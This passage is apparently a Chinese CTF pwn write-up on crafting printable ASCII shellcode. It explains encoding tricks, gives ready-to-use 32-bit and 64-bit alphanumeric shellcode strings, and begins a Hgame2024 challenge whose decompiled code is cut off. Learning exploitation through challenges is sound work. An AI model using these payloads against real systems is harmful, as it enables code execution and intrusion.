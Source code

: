 可以看看这几位师傅的文章：

[手把手教你写纯字符 ascii shellcode——最通俗易懂的 alphanumeric shellcode 生成指南\_ascii 可见 shellcode](https://blog.csdn.net/SmalOSnail/article/details/105236336)

[ASCII 码-shellcode](https://zhuanlan.zhihu.com/p/652061031)

[可见 shellcode 字符的艺术-Pwn](https://bbs.kanxue.com/thread-274652.htm#msg_header_h2_7)

部分实用技巧：

1.  NULL 的妙用  
    利用 NULL 字符被解析成的`add byte ptr [rax], al`默认指令，找出需要构造指令的值与白名单字符中是否有倍数关系，控制默认指令执行次数即可构造，比如`ret(0xc3)`指令，`0xc3/0x41=3`，则控制`al`为`0x41`执行三次默认指令后，就会在`+0x41`偏移处构造出`ret`指令，空出的部分可以用无意义指令填充
2.  地址低字节偏移不变  
    利用`libc`或程序中的函数地址最低三位偏移不变，找出与其异或可以构造出的指令值（一次异或不行可以多次），就可以稳定构造指令，比如在程序中出现的`__libc_csu_init`地址以`a0`结尾，那么找到`0xa0^0x52^0x31=0xc3`，既然结尾的`a0`偏移不变，那就保证了每次百分百构造出`ret`指令
3.  xor+add  
    很多时候，手中的白名单字符相互异或都无法构造出需要的值，我们可以先通过比如`xor dword ptr [rax+0x54],ecx`指令向其异或构造出一些值，再将`al`控制相同的立即数，按照例子就是`0x54`（要保证写入的地址一样），再去执行一次默认指令`add`，就结合了异或和加法运算，可以构造出更多的值
4.  push+ret 实现流程控制  
    把想要多次执行的指令放在`shellcode`末尾，然后构造出想要多次执行的指令的起始地址，控制`push`次数来控制循环次数，最后跳到目的地就行，实用的示例就是构造地址的时候，算出偏移量后一直除以 2，看字节是否都方便构造，然后控制执行多次`add`指令还原出最终的偏移值再利用
5.  jz 指令  
    比如`jz $+0x50`指令也是可见字符，可以实现短跳，不过应用范围不广

这里也给一些能用的纯 ascii 字符 shellcode

#### 32 位 纯 ascii 字符 shellcode

```bash
PYIIIIIIIIIIQZVTX30VX4AP0A3HH0A00ABAABTAAQ2AB2BB0BBXP8ACJJISZTK1HMIQBSVCX6MU3K9M7CXVOSC3XS0BHVOBBE9RNLIJC62ZH5X5PS0C0FOE22I2NFOSCRHEP0WQCK9KQ8MK0AA
```

#### 64 位 纯 ascii 字符 shellcode

```bash
Ph0666TY1131Xh333311k13XjiV11Hc1ZXYf1TqIHf9kDqW02DqX0D1Hu3M2G0Z2o4H0u0P160Z0g7O0Z0C100y5O3G020B2n060N4q0n2t0B0001010H3S2y0Y0O0n0z01340d2F4y8P115l1n0J0h0a070t
```

#### 例：Hgame2024 ezshellcode

ida：

```bash
int __cdecl main(int argc, const char **argv, const char **envp)
{
  unsigned int v4; // [rsp+Ch] [rbp-14h] BYREF
  void (*v5)(void); // [rsp+10h] [rbp-10h]
  unsigned __int64 v6; // [rsp+18h] [rbp-8h]

  v6 = __readfsqword(0x28u);
  init(argc, argv, envp);
  v5 = (void (*)(void))(int)mmap((void *)0x20240000, 0x1000uLL, 7, 33, -1, 0LL);
  if ( v5 == (void (*)(void))-1LL )
  {
    perror("mmap");
    exit(1);
  }
  printf("input the length of your shellcode:");
  __isoc99_scanf("%2d", &v4);
  if ( (int)v4 <= 10 )
  {
    printf("input your shellcode:");
    myread(v5, v4);
  }
  else
```